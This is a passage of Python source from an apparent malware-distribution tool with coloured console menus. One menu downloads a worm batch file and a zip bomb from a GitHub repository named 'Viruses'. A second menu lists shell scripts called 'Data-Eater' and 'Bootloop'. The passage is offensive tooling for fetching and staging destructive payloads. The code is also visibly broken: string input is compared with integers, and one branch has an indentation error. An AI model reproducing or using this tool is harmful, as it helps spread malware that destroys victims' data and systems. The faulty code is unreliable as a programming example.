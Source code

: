 		print(""+R+"[!] This is not number")
	except Exception as err:
		print(""+R+"[!] This is not number")
		
######################Done pdf
############Worm and Bomb zip
def Vother():
	print(""+O+"["+R+"1"+O+"] Worm.bat")
	print(""+O+"["+R+"2"+O+"] Bomb.zip")
	print(""+O+"["+R+"3"+O+"] Back")
	
	try:
		menu5 = input("Input number > "+R+"")
		if menu5 == 1:
			print(""+G+"")
			chunk_size = 1024
			url = 'https://github.com/Ractomes/Viruses/blob/master/samples/worm.bat?raw=true'
			r = requests.get(url, stream = True)
			size = int(r.headers['content-length'])
			filename = url.split('/')[-1]
			with open(filename, 'wb') as f:
				for data in tqdm(iterable = r.iter_content(chunk_size = chunk_size),total = size/chunk_size, unit = ' KB'):
					f.write(data)
			os.system("mv 'worm.bat?raw=true' Worm-and-Bombzip/worm.bat")
			print(fun)#####done
		
		elif menu5 == 2:
			print(""+G+"")
			chunk_size = 1024
			url = 'https://github.com/Ractomes/Viruses/blob/master/samples/bom-zip.zip?raw=true'
			r = requests.get(url, stream = True)
			size = int(r.headers['content-length'])
			filename = url.split('/')[-1]
			with open(filename, 'wb') as f:
				for data in tqdm(iterable = r.iter_content(chunk_size = chunk_size),total = size/chunk_size, unit = ' KB'):
					f.write(data)
			os.system("mv 'bom-zip.zip?raw=true' Worm-and-Bombzip/Bomb.zip")
			print(fun)#####done
		
		elif menu5 == 3:
    	print("\n")
			menu()	
		else:
			print(""+R+"[!] wrong number")
	except Exception:
		print(""+R+"[!] This is not number")
		
###############Start Shell Virus		
def Shellvirus():
	print(""+O+"["+R+"1"+O+"] Data-Eater.sh")
	print(""+O+"["+R+"2"+O+"] Bootloop.sh")
	print(""+O+"["+R+"3"+O+"] Back")
	